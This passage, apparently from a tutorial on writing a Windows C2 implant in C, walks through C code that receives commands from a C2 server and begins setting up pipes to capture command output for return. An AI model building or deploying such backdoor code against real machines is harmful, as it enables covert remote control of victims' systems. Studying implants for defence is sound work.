 At this point, we enter an infinite loop. In each iteration, we try to receive a buffer from the C2 server and store both the data and the number of bytes received. If the number of received bytes is 0 or less, it means the connection has been closed or an error occurred, so we break the loop. Otherwise, if we receive any valid data, we append a `\0` (null terminator) to the end of the string and pass the buffer to the sendPresent() function for further processing.

```c
while (1) {
	memset(recvBuffer, 0, BUFFER_SIZE);
	recvSize = recv(sock, recvBuffer, BUFFER_SIZE - 1, 0);
	if (recvSize <= 0) break;
	
	recvBuffer[recvSize] = '\0';
	sendPresent(recvBuffer, sock);
}
```

Finally, after the loop finishes, we clean up by closing the socket and cleaning up the Winsock library.

```c
closesocket(sock);
WSACleanup();
```

#### `sendPresent()`: Command Execution and Response

This function starts by setting up a `SECURITY_ATTRIBUTES` structure. We use this mainly to allow handle inheritance, which is neede when we create a new process and want to redirect its output (like a pipe). Some of the attributes are:
- `nLength` sets the size of the structure
- `lpSecurityDecriptor` is set to `NULL` for default security
- `bInheritHandle` is set to `TRUE` so child process can inherit the pipe handles

```c
SECURITY_ATTRIBUTES sa;

sa.nLength = sizeof(sa);
sa.lpSecurityDescriptor = NULL;
sa.bInheritHandle = TRUE;
```

Next, we create an anonymous pipe using `CreatePipe()` which gives us two handles:
- `hRead` for reading
- `hWrite` for writting

Right after that, we call `SetHandleInformation()` on the read end to disable inheritance for it (we only want the child process to inherit the write end, not both). If we let it inherit the read end too, things can get messy.

```c
HANDLE hRead, hWrite;
CreatePipe(&hRead, &hWrite, &sa, 0);
SetHandleInformation(hRead, HANDLE_FLAG_INHERIT, 0);
```

Now it's time to set up the `STARTUPINFOA` struct (this is where we configure how the new process will behave when it starts).
